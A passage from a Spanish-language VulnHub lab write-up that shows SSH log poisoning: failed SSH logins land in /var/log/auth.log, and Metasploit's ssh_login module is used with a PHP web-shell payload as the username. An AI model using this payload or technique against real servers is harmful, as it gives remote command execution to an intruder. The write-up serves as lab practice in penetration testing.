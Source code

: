Si nos intentamos conectar con un usuario inexistente llamado "prueba", podemos ver el error en el navegador el la ruta del archivo **/var/log/auth.log**.

![picture](/assets/images/vulnhub/corr20.png)

![picture](/assets/images/vulnhub/corr21.png)

Para ejecutarlo, nos iremos a **Metasploit**, y usaremos el exploit "auxiliary/scanner/ssh/ssh_login".

```bash
use auxiliary/scanner/ssh/ssh_login
set USERNAME <?php system($_GET['cmd2']); ?>
set PASSWORD 123456
set rhosts 'Ip servidor'
```

![picture](/assets/images/vulnhub/corr22.png)

Y corremos el exploit.

![picture](/assets/images/vulnhub/corr23.png)
